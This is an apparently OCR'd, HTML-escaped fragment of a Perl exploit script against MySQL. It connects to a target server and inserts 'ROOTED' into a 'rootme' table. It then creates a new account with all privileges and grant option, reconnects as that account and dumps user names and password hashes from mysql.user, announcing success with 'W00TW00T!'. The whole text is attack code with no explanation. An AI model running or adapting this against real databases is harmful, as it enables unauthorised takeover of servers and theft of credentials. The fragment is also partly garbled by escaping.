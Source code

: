 my $dbh = DBI-&gt;connect(&quot;DBI:mysql:database=$database;host=$target;&quot;,

                      &quot;$user&quot;, &quot;$password&quot;,

                      {&amp;apos;RaiseError&amp;apos; =&gt; 0});

$dbh-&gt;do(&quot;INSERT INTO rootme VALUES(&amp;apos;ROOTED&amp;apos;);&quot;);

$dbh-&gt;do(&quot;grant all on $a.* to &amp;apos;user&amp;apos;\@&amp;apos;%&amp;apos; identified by &amp;apos;secret&amp;apos;;&quot;);

sleep(3);

my $dbh = DBI-&gt;connect(&quot;DBI:mysql:database=$database;host=$target;&quot;,

                      &quot;$user&quot;, &quot;$password&quot;,

                      {&amp;apos;RaiseError&amp;apos; =&gt; 0});

$dbh-&gt;do(&quot;CREATE USER &amp;apos;$newuser&amp;apos;\@&amp;apos;%&amp;apos; IDENTIFIED BY &amp;apos;$newuserpass&amp;apos;;&quot;);

$dbh-&gt;do(&quot;GRANT ALL PRIVILEGES ON *.* TO &amp;apos;$newuser&amp;apos;\@&amp;apos;%&amp;apos; WITH GRANT OPTION;&quot;);

$dbh-&gt;do(&quot;grant all on $a.* to &amp;apos;user&amp;apos;\@&amp;apos;%&amp;apos; identified by &amp;apos;secret&amp;apos;;&quot;);

sleep(3);

my $dbh = DBI-&gt;connect(&quot;DBI:mysql:host=$target;&quot;,

                      $newuser, $newuserpass,

                      {&amp;apos;RaiseError&amp;apos; =&gt; 0});

my $sth = $dbh-&gt;prepare(&quot;SELECT * FROM mysql.user&quot;);

$sth-&gt;execute();

print &quot;W00TW00T!\n&quot;;

while (my $ref = $sth-&gt;fetchrow_hashref()) {

print &quot;Found a row: id = $ref-&gt;{&amp;apos;User&amp;apos;}, name = $ref-&gt;{&amp;apos;Password&amp;apos;}\n&quot;;

}

$sth-&gt;finish();